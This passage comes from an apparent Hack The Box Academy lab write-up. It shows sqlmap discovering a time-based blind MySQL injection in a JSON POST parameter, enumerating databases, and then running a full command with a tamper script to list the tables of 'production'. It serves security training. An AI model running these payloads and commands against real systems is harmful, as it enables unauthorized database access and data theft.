 ```ps
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:30:51] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:30:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:30:51] [INFO] fetching database names
[23:30:51] [INFO] fetching number of databases
[23:30:51] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                       
[23:30:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[23:31:06] [INFO] retrieved: 
[23:31:11] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[23:32:21] [INFO] retrieved: production
available databases [2]:
[*] information_schema
[*] production

[23:33:03] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:33:03] [WARNING] your sqlmap version is outdated

[*] ending @ 23:33:03 /2025-08-23/
```
It found two options!
```ps
available databases [2]:
[*] information_schema
[*] production
```

## Step 5 "Get Tables"
In this exercise, we already know which table we are looking for, but let's search for all the tables available in the `production` database with `--tables`.

```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch --tamper=between -D production --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
```